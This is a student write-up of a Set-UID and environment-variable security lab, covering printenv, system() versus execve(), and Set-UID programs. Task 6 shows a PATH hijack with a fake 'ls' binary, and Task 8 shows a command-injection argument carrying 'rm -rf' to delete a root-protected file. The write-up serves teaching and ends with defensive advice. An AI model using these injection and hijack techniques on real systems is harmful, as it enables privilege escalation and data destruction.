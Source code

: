 ## Environment Variable and Set-UID Lab

###  Task 1

- Use of ```printenv``` to print out the environment variables:
 ```
$ printenv PWD
/Users/duartemarques/Desktop/FSI
 ```

- Use of ```export``` and ```unset``` to set or unset environment variables:
 ```
$ export var="try"
$ printenv var
try
$ unset var
$ 
```

###  Task 2

- We compiled the ```myprintenv.c``` program using the command:
```
$ gcc myprintenv.c
$ ./a.out > file
```
- After successful compilation, we executed the program and an executable file named a.out was created along with the output file named ```file```.
```
$ ./a.out > file2
$ diff file file2
```
- After running and compiling the code again, another file was created and we concluded that the output from both files is the same, showing that the environment variables are consistent across both processes. This indicates that both the parent and child processes share the same environment variables at the time of the child's creation.

###  Task 3
- We compiled the ```myenv.c``` program using the command:
```
$ gcc myenv.c -o myenv
$ ./myenv
```
- After successful compilation, we executed the program and an executable file named ```myenv``` was created along with the output file named ```file3```.
```
$ myenv > file3
```
- Upon analyzing ```file3```, we noticed that it was empty. The environment variables were not being accessed properly by the program. This was due to the environment pointer not being set correctly — it was pointing to NULL.
- After changing the file from ```NULL``` to the variable ```environ```, running and compiling the code again, another file was created:
```
$ gcc myenv.c -o myenv
$ ./myenv
$ myenv > file4
```
- This time, the output in ```file4``` correctly displayed the environment variables, indicating that the program was now properly accessing and printing them.

### Task 4
- We created a new file ```task4.c``` with the following code:
```
#include <stdio.h>
#include <stdlib.h>
int main()
{
system("/usr/bin/env");
return 0 ;
}
```
- Then we compiled and ran that file:
```
$gcc task4.c -o task4
$ ./task4
```
- The ```system()``` function effectively passes all the environment variables from the parent process to the command it executes. Unlike ```execve()```, which directly replaces the process, ```system()``` runs a shell first, allowing it to inherit the environment variables.

### Task 5
- We created a new file ```foo``` with the following code:
```
#include <stdio.h>
#include <stdlib.h>
extern char **environ;
int main()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}
```

```
$ gcc -o foo foo.c
```
After running this comand, the file was compiled and an executable named foo was created.

```
$ sudo chown root foo
$ sudo chmod 4755 foo
```
- The first command changes the owner of the executable ```foo``` to the root user, meaning the program is now owned by the superuser.
- The second changes foo's file permissions and enables Set-UID. The ```chmod``` change mode command  sets the permissions to 4755, where ```4``` activates Set-UID, allowing the program to run with the file owner's (root's) privileges. The ```755``` grants the owner read, write, and execute rights, while others get read and execute rights. With Set-UID enabled, ```foo``` will run with root privileges, even when executed by a regular user.

```
$ export PATH=$PATH:/Documents/Labsetup
$ export LD_LIBRARY_PATH=/Downloads
$ export UNIVERSITY_NAME=Feup`
```

- We ran the code after these export commands and this was the result:
![Image 1 - Task 5 overview.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task5.jpeg)
*Image 1 - Task 5 overview.*

- Checking the output, we conclude that variables like ```PATH``` and custom variables (```UNIVERSITY_NAME```) were inherited and modified by child processes, while environment variables like ```LD_LIBRARY_PATH``` and others may not be passed to child processes for security reasons, to prevent the execution of unintended libraries and protect the system from vulnerabilities.



### Task 6

- First, we created the new file ```task6.c``` with the following code:
```
int main()
{
  system("ls");
  return 0;
}
```
- Then we compiled that file:
```
$ gcc task6.c -o task6
```
- To escalate the privileges of our program, we changed its owner to root and set the Set-UID permission, allowing it to run with the privileges of the file owner (root):
```
$ sudo chown root task6
$ sudo chmod 4755 task6
```
- Next, we created a malicious program named ```ls.c```. The goal of this program is to replace the behavior of the ls command when invoked by our task6 program.
```
int main()
{
  echo("EXECUTING MALICIOUS SCRIPT\n");
  return 0;
}
```
And compiled it:
```
$ gcc ls.c -o ls
```
To ensure our malicious program is executed instead of the original ls command, we modified the PATH environment variable:
```
$ export PATH=/home/seed/Desktop/Labsetup:$PATH
```
Finally, we ran the task6 program. Since it calls ```system("ls")``` without specifying an absolute path, it will find our malicious ls executable first, executing our code instead of the original ls command.
In this case, we created malicious code whose execution would print a message:

![Image 2 - Task 6 overview.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task6.jpeg)
*Image 2 - Task 6 overview.*

### Task 8

- First we started by compiling the file catall.c and made it a root-owned Set-UID program:
```
$ gcc catall.c -o catall
$ sudo chown root catall
$ sudo chmod 4755 catall
```
- We created a new file called ```secretfile.txt``` then we altered the permissions so that the user seed can´t remove it or modify it:
```
$ sudo chown root:root /home/seed/Labsetup/secretfile.txt
$ sudo chmod 400 /home/seed/Labsetup/secretfile.txt
```
- Since ```system()```, used in  ```catall.c```, relies on the shell, if Bob manipulates the PATH environment variable, he could trick the program into running a malicious version of cat.
- We used the program to inject a command that will remove the ```secretfile.txt```:
```
$ ./catall "; rm -rf /home/seed/Labsetup/secretfile.txt"
```
To sum up, the use of system() in Set-UID programs is dangerous because it allows command injection and permission abuse. A best practice would be to replace system() with execve(), which does not invoke the shell and is therefore not vulnerable to this type of attack.

